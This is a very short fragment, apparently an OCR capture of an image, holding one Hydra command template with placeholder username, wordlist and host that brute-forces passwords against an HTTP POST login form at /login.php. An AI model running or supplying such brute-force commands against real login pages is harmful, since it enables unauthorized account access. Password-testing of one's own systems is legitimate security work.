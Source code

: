 
hydra -l "USERNAME" -P "WORDLIST" "IP or HOSTNAME" http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V



